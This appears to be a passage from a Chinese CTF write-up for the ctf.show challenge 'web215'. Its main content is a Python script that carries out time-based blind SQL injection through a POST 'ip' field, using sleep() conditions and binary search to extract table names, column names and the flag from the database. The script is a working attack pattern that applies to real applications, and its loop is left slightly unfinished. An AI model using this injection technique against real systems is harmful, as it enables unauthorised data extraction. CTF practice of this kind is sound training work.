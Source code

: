 
#### web215

![image-20250214121007384](../assets/image-20250214121007384.png)

上题脚本改一改



```python
import requests

url = "http://08e16d35-1a8c-4ed7-9e9e-760a32aa0756.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        # payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
```